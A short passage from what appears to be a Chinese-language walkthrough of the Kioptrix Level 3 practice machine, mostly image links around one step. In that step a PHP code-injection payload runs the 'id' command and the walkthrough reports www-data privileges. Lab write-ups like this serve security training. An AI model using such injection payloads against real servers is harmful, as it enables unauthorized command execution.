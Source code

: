     ![6.png](./img/KioptrixVM3/6.png)

4. 尝试注入id命令，如下，为www-data权限
   
   ```shell
   ${@print(system("id"))}\
   ```
   
     ![7.png](./img/KioptrixVM3/7.png)
